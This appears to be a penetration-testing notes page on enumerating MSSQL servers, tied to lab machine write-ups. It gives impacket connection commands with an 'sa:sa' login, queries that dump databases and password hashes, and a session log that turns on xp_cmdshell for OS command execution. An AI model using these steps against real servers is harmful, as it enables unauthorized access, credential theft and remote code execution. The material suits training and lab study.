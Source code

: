 ```yaml
---
description: >-
  Enumerate MSSQL service.
title: MSSQL (tcp-1433)                  # Add title here
date: 2023-01-22 08:00:00 -0600                           # Change the date to match completion date
categories: [01 Enumeration, MSSQL (tcp-1433)]                     # Change Templates to Writeup
tags: [mssql enumeration, mssql rce]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

#### Connection

```bash
impacket-mssqlclient sa@10.11.1.31 -p 1433 -db tempdb
```
#### MSSQL basic commands

```bash
# Show databases available
select name from sys.databases
# It also works for the same but as a store procedure
sp_databases
# Select the database for list its content
use streamio_backup
# List the name of the tables from a database
select * from information_schema.tables;
# List all the tables from a db
select table_name FROM dba_tables;
# List all from a table
select * from users;
# List user permissions
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```
Examples:
[[StreamIO#^2bc6f1]]
[[Scramble#^516462]]

#### Command execution from MSSQL
If we have access to the MSSQL we can try to execute commands from MSSQL:
```bash
SQL> xp_cmdshell "whoami"
[-] ERR0R(TALLY): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component ,xp_cmdshell’ because this component is turned off as part of the security figuration for this server. A system administrator can enable the use of ,xp_cmdshell' by using sp_configure. For more information about enabling 'xp.cmdshell', search for p_cmdshell' in SQL Server Books Online.
SQL> sp_configure "xp_cmdshell", 1
[-] ERR0R(TALLY): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
SQL> sp_configure "show advanced options", 1
[*] INF0(TALLY): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> sp_configure "xp_cmdshell", 1
[*] INF0(TALLY): Line 185: Configuration option 'xp.cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> xp_cmdshell "whoami"
```
Examples:
[[Scramble#^ec565c]]
Connect to database joined to the domain controller:
```bash
impacket-mssqlclient scrm.local/sa:sa@10.10.11.168
```
Examples:
[[Scramble#^8adc8a]]
